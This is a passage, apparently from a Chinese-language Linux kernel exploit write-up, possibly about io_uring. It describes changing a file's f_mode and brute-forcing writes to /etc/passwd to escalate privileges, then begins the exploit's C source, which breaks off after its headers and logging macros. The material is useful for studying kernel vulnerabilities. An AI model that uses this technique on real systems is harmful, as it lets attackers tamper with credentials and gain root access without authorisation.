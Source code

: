   
定位到文件处，修改
```
f_mode
```

  
。  
  
  
〔6〕因为无法知道文件描述符，所以暴力对所有
```
/etc/passwd
```

  
进行写操作，通过返回值判断是否写入成功，非常稳定。  
  
  

```
#define _GNU_SOURCE 
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <liburing.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
#include <mqueue.h>

#include <sys/syscall.h>
#include <sys/resource.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/tcp.h>
#include<sys/stat.h>
#include<sys/file.h>
#pragma pack(16)

#define __int64 long long
#define CLOSE printf(&#34;\033[0m\n&#34;);
#define RED printf(&#34;\033[31m&#34;);
#define GREEN printf(&#34;\033[36m&#34;);
#define BLUE printf(&#34;\033[34m&#34;);
#define YELLOW printf(&#34;\033[33m&#34;);
#define _QWORD unsigned long
#define _DWORD unsigned int
#define _WORD unsigned short
#define _BYTE unsigned char
#define COLOR_GREEN &#34;\033[32m&#34;
#define COLOR_RED &#34;\033[31m&#34;
#define COLOR_YELLOW &#34;\033[33m&#34;
#define COLOR_BLUE &#34;\033[34m&#34;
#define COLOR_DEFAULT &#34;\033[0m&#34;
#define showAddr(var)  dprintf(2, COLOR_GREEN &#34;[*] %s -> %p\n&#34; COLOR_DEFAULT, #var, var); 
#define logu(fmt, ...) dprintf(2,  &#34;[*]  &#34; fmt &#34;\n&#34; , ##__VA_ARGS__)
#define logd(fmt, ...) dprintf(2, COLOR_BLUE &#34;[*] %s:%d &#34; fmt &#34;\n&#34; COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define logi(fmt, ...) dprintf(2, COLOR_GREEN &#34;[+] %s:%d &#34; fmt &#34;\n&#34; COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define logw(fmt, ...) dprintf(2, COLOR_YELLOW &#34;[!] %s:%d &#34; fmt &#34;\n&#34; COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define loge(fmt, ...) dprintf(2, COLOR_RED &#34;[-] %s:%d &#34; fmt &#34;\n&#34; COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define die(fmt, ...)                      \
    do {                                   \
```